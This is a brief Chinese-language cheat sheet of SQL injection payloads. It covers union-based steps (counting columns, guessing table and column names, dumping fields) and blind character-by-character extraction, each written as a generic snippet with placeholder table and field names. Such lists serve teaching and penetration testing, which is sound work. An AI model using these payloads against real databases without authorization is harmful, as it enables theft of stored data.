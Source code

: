 ### 联合查询注入

#### 查询字段数

```mysql
order by 1
```

#### 爆表名

```mysql
and exists (select from 表名)
```

#### 判断其显示位

```mysql
union select 1,2,3 from 表名
```

#### 爆列名

```mysql
and exists (select 字段名 from 表名)
```

#### 爆数据

```mysql
union select 1,字段名,3 from 表名
```

### 逐行猜解

#### 猜解表名

```mysql
and exists (select from 表名)
```

#### 猜解字段名

```mysql
and exists (select 字段名 from 表名)
```

#### 猜数据内容长度

```mysql
and (select top 1 len(字段名) from 表名) = 1
```

#### 猜数据内容

```mysql
and (select top 1 asc(mid(字段名,1,1)) from 表名) = ascii码
```

